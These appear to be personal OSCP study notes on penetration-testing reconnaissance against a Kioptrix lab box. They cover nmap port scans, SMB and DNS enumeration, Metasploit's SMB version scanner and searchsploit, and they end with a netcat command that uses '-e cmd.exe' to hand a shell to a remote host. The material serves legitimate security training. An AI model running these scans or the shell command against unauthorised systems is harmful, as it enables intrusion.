**OSCP Notes**

*NetDiscover*

find out the ip of the machine in the network

    netdiscover -i  eth1

**Find ports**

*SSH fast UDP*

    nmap -Pn --top-ports 1000 -sU --stats-every 3m --max-retries 1 -T3 -oN /root/kioptrix.txt 192.168.156.102

    -sU                         UDP Scan

*SSH intensive* 

    nmap -Pn -sS --stats-every 3m --max-retries 1 --max-scan-delay 20 --defeat-rst-ratelimit -T4 -p1-65535 -oN /root/desktop/kioptrix.txt 192.168.156.102

    -Pn                         Do not ping the host
    -sS                         Stealth Scan
    --stats-every 3m            Every 3 Min information should come back
    --max-retries 1             Only try once
    --max-scan-delay 20         nmap should wait a specific time - avoid rait limit
    --defeat-rst-ratelimit      don't send ack just send rst to much ack can trigger rait limit - for filtered ports
    -T4                         Intesitiy of 4
    -p1-65535                   scan all ports
    -oN <where to save it>      save the result to a specific file
    <target>                    ip e.g.

*Specific Ports Scan*

    sudo nmap -Pn -nvv -p 22,80,8080 --version intensity 9 -A -oN /home/kali/Desktop/kioptrix.txt

    -nvv 
    -Pn
    -p 22,80,111,139
    --version intensity 9 
    -A
    -oN /root/kioptrix1_detailed.txt
    <host>

**Enumeration**

All kind of enumeration topics

**Search for Directories**

*dirbuster - with UI*

Good to download a wordlist from github
take a big one and remove "manual"

*analysis for vulnerabilities*

    nikto -h <ip> + port :80 or :443 

*SMB Enumeration*

    enum4linux -> 
        SMB Client 
        RPC Client
        NAT and MB Lookup

Has config bug
    locate smb.conf
    vim smb.conf

    under global add:
    client use spnego = no
    client ntlmv2 auth = no

*enum4linux <ip>*

find out SAMBA Version

    msfconsole
    search smb

search for an auxiliary scanner for smb with meatsploit

    use auxiliary/scanner/smb/smb_version
    put info - includes show options
    set rhost <ip>
    exploit
    --> gives you the version

    searchsploit samba 2.2
    see exploits compare them to exploit-db

    nbtscan <ip> - gives you basic info like NetBIOS Name

    smbclient -L <ip>

SAMBA is a good source for exploits

**DNS Enumeration**

*zonetransfer*

DNS Server

    host -t ns zonetransfer.me

Mail Server

    host -t mx zonetransfer.me

Host Information

    host zonetransfer.me

Zonetransfer information

    host -l zonetransfer.me <name server>

gives you unique dns/ip addresses

*dnsrecon*

    dnsrecon -d zonetransfer.me -t axfr
    axfr - for Zonetransfer

*dnsenum*

    dnsenum zonetransfer.me

its more clean and faster as the other ones

**other types**

    -FTP
    -SNMP
    -SMTP

**NetCat**

try connect to an open port
    
    nc -nv <ip> <port>

listening shell

    nc -nvlp <port>

connect

    nc -nv <ip> <port> -e cmd.exe
    -e execute



